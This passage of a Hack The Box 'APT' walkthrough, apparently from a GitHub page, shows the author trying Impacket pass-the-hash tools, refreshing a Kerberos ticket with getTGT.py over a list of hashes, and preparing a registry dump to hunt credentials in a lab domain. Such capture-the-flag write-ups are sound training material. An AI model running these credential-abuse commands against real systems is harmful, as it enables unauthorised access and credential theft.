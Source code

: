 ```text

```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb htb/henry.vinson@apt.htb.local Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

\[-\] DCERPC Runtime Error: code: 0x5 - rpc\_s\_access\_denied

```text
I was starting to think that the hash was not valid, though it did enumerate shares...
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb htb/henry.vinson@apt.htb.local Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

\[\*\] SMBv3.0 dialect used \[-\] rpc\_s\_access\_denied

```text
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ python3 /usr/local/bin/reg.py -dc-ip apt.htb.local -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb apt.htb.local query -keyName HKCU -s Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

\[!\] Cannot check RemoteRegistry status. Hoping it is started... \[-\] SMB SessionError: STATUS\_ACCESS\_DENIED\({Access Denied} A process has requested access to an object but has not been granted those access rights.\)

```text
nothing seemed to work.  I tried each of these using the -k option after exporting the key to KRB5CCNAME and still couldnt progress
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ klist Ticket cache: FILE:henry.vinson@apt.htb.ccache Default principal: henry.vinson@HTB.LOCAL

Valid starting Expires Service principal 03/30/2021 21:54:04 03/31/2021 07:54:04 krbtgt/HTB@HTB.LOCAL renew until 03/31/2021 21:52:51

```text
* https://0xeb-bp.com/blog/2019/11/21/practical-guide-pass-the-ticket.html

So the ticket was expired.
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ for x in $\(cat test\);do getTGT.py -hashes $x -dc-ip apt.htb.local htb.local/henry.vinson@apt.htb \| grep -v Impacket \| tee -a valid\_hash;done

\[\*\] Saving ticket in henry.vinson@apt.htb.ccache

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ klist Ticket cache: FILE:henry.vinson@apt.htb.ccache Default principal: henry.vinson@HTB.LOCAL

Valid starting Expires Service principal 03/31/2021 20:18:19 04/01/2021 06:18:19 krbtgt/HTB@HTB.LOCAL renew until 04/01/2021 20:15:12

```text
I ran my one-liner from earlier (on just the valid hash!) and the time was refreshed

I tried dumping the registry, and this time it took much, much, longer to output (like everything else on this machine so far!).  I was sure that it was working this time!!  I used the `-s` reg option to make it recursively get all keys.  I chose HKEY-USER first since it was a likely place to find potential credentials and other useful system information.  

* https://www.lifewire.com/hkey-users-2625903

```